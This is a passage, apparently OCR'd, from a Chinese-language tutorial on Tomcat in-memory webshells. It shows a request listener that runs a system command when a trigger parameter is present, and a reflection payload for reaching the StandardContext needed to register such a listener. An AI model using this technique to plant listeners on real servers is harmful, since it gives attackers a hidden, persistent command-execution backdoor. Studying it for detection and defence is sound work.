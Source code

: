 ```java
            public void requestInitialized(ServletRequestEvent arg0) {
                try {
                    String shell = arg0.getServletRequest().getParameter("calc");
                    if(shell != null && shell.equals("1")) {
                        Runtime.getRuntime().exec("calc");
                    }
                }catch (Exception e){
                    e.printStackTrace();
                }
            }

            @Override
            public void requestDestroyed(ServletRequestEvent arg0) {}


        };
        ((StandardContext)context).addApplicationEventListener(requestListener);
    }
}
```

# [](#header-31)1.2 context获取方法

在一些反序列化、类加载、jsp的场景，我们无法直接获取 request 进而获取 StandardContext，需要通过其他方法获取 StandardContext

## [](#header-31)1.2.1 tomcat全版本 利用request获取

众所周知的，在一个标准 HttpServlet 实现类中可以获得来自 Filter 的类型为 org.apache.catalina.connector.RequestFacade 的 request 请求，通过调用 RequestFacade.getServletContext() 方法可以直接获得 ServletContext.  

这样就好办了，直接写 Payload 一路获取 StandardContext   
ServletContext → ApplicationContext → StandardContext

```java
//Payload
ServletContext servletContext = request.getServletContext();

Field apctxField = (Field) servletContext.getClass().getDeclaredField("context");
apctxField.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) apctxField.get(servletContext);

Field stdctxField = (Field) applicationContext.getClass().getDeclaredField("context");
stdctxField.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctxField.get(applicationContext);
```

## [](#header-31)1.2.2 tomcat版本小于10.1.x webappclassloaderbase.getresources

在 Tomcat <= 10.1.x 的 Servlet 中，可以通过 webappClassLoaderBase.getResources() 接口获取当前 WebResourceRoot 后直接调用 WebResourceRoot.getContext() 获取当前 StandardContext
